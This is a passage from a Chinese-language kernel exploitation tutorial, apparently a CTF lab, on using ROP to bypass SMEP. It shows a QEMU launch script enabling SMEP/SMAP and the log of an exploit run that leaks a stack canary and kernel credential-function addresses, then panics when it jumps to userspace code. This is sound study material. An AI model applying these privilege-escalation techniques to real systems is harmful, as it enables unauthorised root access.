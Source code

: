 ### 4.1. rop绕过SMEP

修改start脚本，增加SMEP和SMAP的功能。

```bash
qemu-system-x86_64 \
-m 512M \
-kernel ./bzImage \
-initrd  ./new_rootfs.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet " \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-cpu qemu64,smep,smap \
-nographic  \
```

从新执行exp，发现exploit被SMEP拦截：

```bash
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ $ ./exp
625b0b3d90b0ca00 00007fffd464c3f0 ffffffffc03a019b ffffa0045fa30b40 ffffffffb8ddd6d1 000000000000889b ffffa00457f43f00 ffffffffb8d8ecfa 0000000000000026 0000000000000000 0000000000000000 
get canay is:625b0b3d90b0ca00
commit_cred:ffffffffb8c9c8e0
prepare_kernel_cred:ffffffffb8c9cce0
promote_root:000056354d48a2a9
name_payload_len:88
[    9.100595] core: called core_writen
[    9.100970] unable to execute userspace code (SMEP?) (uid: 1000)
[    9.108421] BUG: unable to handle kernel paging request at 000056354d48a2a9
[    9.112788] IP: 0x56354d48a2a9
[    9.114318] PGD 1f85d067 P4D 1f85d067 PUD 1f856067 PMD 1f857067 PTE 1856b025
[    9.117294] Oops: 0011 [#1] SMP NOPTI
[    9.119232] Modules linked in: core(O)
[    9.120932] CPU: 0 PID: 997 Comm: exp Tainted: G           O     4.15.8 #19
[    9.123671] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.13.0-1ubuntu1 04/01/2014
[    9.126272] RIP: 0010:0x56354d48a2a9
[    9.128051] RSP: 0018:ffffb0d580173e70 EFLAGS: 00000296
[    9.129584] RAX: 0000000000000000 RBX: 9090909090909090 RCX: 0000000000000000
[    9.131237] RDX: 0000000000000000 RSI: ffffffffc03a2458 RDI: ffffb0d580173e70
[    9.132981] RBP: ffffffffffff0058 R08: 6163203a65726f63 R09: 0000000000000dec
[    9.134788] R10: 0000000000000004 R11: 6e65746972775f65 R12: ffffa0045b427270
[    9.137522] R13: 000000006677889a R14: ffffffffffff0058 R15: 0000000000000000
[    9.139838] FS:  00007fb8fbf36740(0000) GS:ffffa0045ca00000(0000) knlGS:0000000000000000
[    9.142626] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    9.144761] CR2: 000056354d48a2a9 CR3: 000000001f86a000 CR4: 00000000003006f0
[    9.146823] Call Trace:
[    9.148625]  ? proc_reg_unlocked_ioctl+0x31/0x70
[    9.150491]  ? do_vfs_ioctl+0x8a/0x5b0
[    9.151446]  ? SyS_ioctl+0x6f/0x80
[    9.152881]  ? do_syscall_64+0x56/0xf0
[    9.154281]  ? entry_SYSCALL_64_after_hwframe+0x3d/0xa2
[    9.156134] Code:  Bad RIP value.
[    9.157655] RIP: 0x56354d48a2a9 RSP: ffffb0d580173e70
[    9.159291] CR2: 000056354d48a2a9
[    9.161355] ---[ end trace 88db38b69bbca590 ]---
[    9.164447] Kernel panic - not syncing: Fatal exception
[    9.167807] Kernel Offset: 0x37c00000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
[    9.172931] Rebooting in 1 seconds.
```
